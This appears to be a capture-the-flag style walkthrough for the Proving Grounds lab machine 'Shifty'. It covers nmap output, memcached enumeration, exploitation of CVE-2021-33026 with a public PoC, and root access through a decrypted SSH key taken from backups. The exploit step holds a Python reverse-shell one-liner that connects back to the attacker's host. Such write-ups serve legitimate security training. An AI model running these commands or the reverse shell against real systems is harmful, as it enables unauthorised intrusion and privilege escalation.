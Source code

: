 #### Enumeration

Nmap

```
# Nmap 7.91 scan initiated Thu Dec 16 11:54:44 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/xml/_full_tcp_nmap.xml 192.168.55.59
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
Nmap scan report for 192.168.55.59
Host is up, received user-set (0.20s latency).
Scanned at 2021-12-16 11:54:45 EST for 371s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT      STATE  SERVICE   REASON         VERSION
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 54:d8:d1:1a:e4:8c:66:48:37:ba:89:0a:9b:aa:db:47 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSh58OLDmEhil0VmRkmNcijtg4KD/oQ4nP9I7PoS4uoangXCXpjJhuzsZJdKodqIRnp3G33o9HaRvx7LtIMPwl3cGcFNIDR9v+PDhDPgMKyRRJ48kdu3q0krzOWRvYnUEyLYjqDfb8VwBemuFA+gefLrMZLrLhhvArOG69zSCAOwKIC8MpQb+btXjU8c3QM6zKMX4XiEE5MM+TihshX/kJT8GgpJxzc+kXPuRgUkP5dgfQjgSsGos7UdHIGTStL4G2u9gXRj2KvamLZrWugN7onR1oMikWnbIki2OY6q4yn7aRo4RcXh4D9a+/L57R8oekVN4WEdGld2OBLzGCNQ89
|   256 fb:75:84:86:ec:b5:00:f3:4f:cb:c8:f2:18:85:42:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMTUc/WfFpP13Cs+MfoVp8EAwjODshXOpOBYCLG/SrFn5k1xSZVmqM3BVE/Dm2/AMOQGSmYzhMwUOj3rYuwnhWE=
|   256 2f:fd:b2:b1:6c:02:e8:a0:ba:e7:f7:52:80:3f:de:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAoY388QpNieLBhyB714K9LnjTUPfbgw4bfpGgdMBT0c
53/tcp    closed domain    reset ttl 63
80/tcp    open   http      syn-ack ttl 63 nginx 1.10.3
|_http-generator: Gatsby 2.22.15
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open   http      syn-ack ttl 63 Werkzeug httpd 1.0.1 (Python 3.5.3)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open   memcached syn-ack ttl 63 Memcached 1.4.33 (uptime 20753 seconds)
OS fingerprint not ideal because: maxTimingRatio (2.592000e+00) is greater than 1.4
Aggressive OS guesses: Linux 3.11 - 4.1 (93%), Linux 3.16 (91%), Linux 4.4 (91%), Linux 3.13 (88%), Linux 3.2 - 3.8 (87%), Linux 3.8 (87%), WatchGuard Fireware 11.8 (87%), Linux 3.10 - 3.16 (87%), Linux 3.10 - 3.12 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=12/16%OT=22%CT=53%CU=%PV=Y%DS=2%DC=T%G=N%TM=61BB70C8%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=105%TI=Z%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.230 days (since Thu Dec 16 06:30:11 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   224.76 ms 192.168.49.1
2   224.85 ms 192.168.55.59

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 16 12:00:56 2021 -- 1 IP address (1 host up) scanned in 372.78 seconds

```

I do not find the available vulnerability on the port 80 and 5000 website, so start checking service on 11211 port.

After a quick searching I understand the use of memcache. Installing the tools to help to easy get the information from memcache service.

```
sudo apt install libmemcached-tools
```

The stat command can show us some access information, but nothing useful.

```
memcstat --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h41m57s_001_.png)


Next we try to get the website store items, but it doesn't return anything back.

```
memcdump --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h52m35s_002_.png)

We have to browse the website on port 5000 first and it will generate the session.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h00m00s_003_.png)

I was stuck here for a long time and then I accidentally noticed that this is a demo site made with FLASK, so I tried to search for FLASK, memcache and exploit as keywords and found vulnerability [CVE-2021-33026](https://github.com/CarlosG13/CVE-2021-33026).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h01m53s_004_.png)

Following the instructions for using the vulnerability We try to send the remote shell command.

```
python3 cve-2021-33026_PoC.py --rhost 192.168.100.59 --rport 5000 --cmd "python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.100\",11211));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" --cookie "session:f246b931-de84-4794-ba25-59c4bd3835df" 
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m16s_005_.png)

Successfully obtained shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m41s_006_.png)

#### Privilege Escalation

(Reference official walkthrough)

There /opt/backups/backup.py file contains hardcoded key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_22h58m08s_007_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h08m17s_008_.png)

Creating decrypt script file.

```
import sys
from des import des, CBC, PAD_PKCS5

k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
with open('/opt/backups/data/{}'.format(sys.argv[1])) as f:
    data = f.read()
    print(k.decrypt(data))
```

We need des file to execute the decrypt script. 

```
cp /opt/backups/des.py /tmp/des.py
```

Decrypting backup files.

```
python decrypt.py 31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h17m59s_009_.png)

It's a SSH private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h21m20s_010_.png)

Using this SSH key for authentication.

```
chmod 400 id_rsa

ssh -i id_rsa root@192.168.134.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h31m38s_011_.png)

